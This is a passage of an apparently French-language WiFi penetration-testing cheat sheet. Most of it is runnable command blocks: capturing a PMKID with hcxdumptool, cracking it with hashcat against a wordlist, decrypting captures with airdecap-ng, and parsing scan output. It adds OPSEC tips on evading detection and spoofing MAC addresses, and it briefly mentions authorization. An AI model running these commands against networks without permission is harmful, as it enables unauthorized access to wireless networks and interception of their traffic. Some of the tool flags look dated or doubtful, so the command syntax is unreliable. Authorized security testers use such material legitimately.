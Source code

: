 ### PMKID Attack (WPA3)
```bash
# Capture PMKID
sudo hcxdumptool -i wlan0mon -o pmkid.pcapng --enable_status=1

# Conversion pour hashcat
hcxpcaptool -z pmkid.hash pmkid.pcapng

# Crackage PMKID
hashcat -m 16800 pmkid.hash rockyou.txt
```

## 📊 Analyse et Post-Traitement

### Analyse des captures
```bash
# Statistiques détaillées
aircrack-ng -S handshake-01.cap

# Extraction informations
airdecap-ng -e "TargetNetwork" -p "password" handshake-01.cap

# Analyse avec tshark
tshark -r handshake-01.cap -Y "wlan.fc.type_subtype == 0x08"
```

### Génération de rapports
```bash
# Export CSV
airodump-ng --output-format csv wlan0mon

# Parse avec script
python3 parse_airodump.py scan_results-01.csv

# Génération rapport HTML
aircrack-ng -H report.html handshake-01.cap
```

## 🛡️ Conseils OPSEC

### Discrétion
- Utiliser des interfaces USB WiFi dédiées aux tests
- Éviter les déauthentifications massives en production
- Limiter la durée des tests pour réduire la détection
- Masquer l'adresse MAC avec macchanger

### Legal compliance
```bash
# Documentation légale
echo "Test autorisé le $(date) par [AUTORISATION]" > test_log.txt

# Limitation géographique
# Tester uniquement les réseaux autorisés

# Sauvegarde evidence
cp handshake-01.cap evidence/$(date +%Y%m%d)_handshake.cap
```
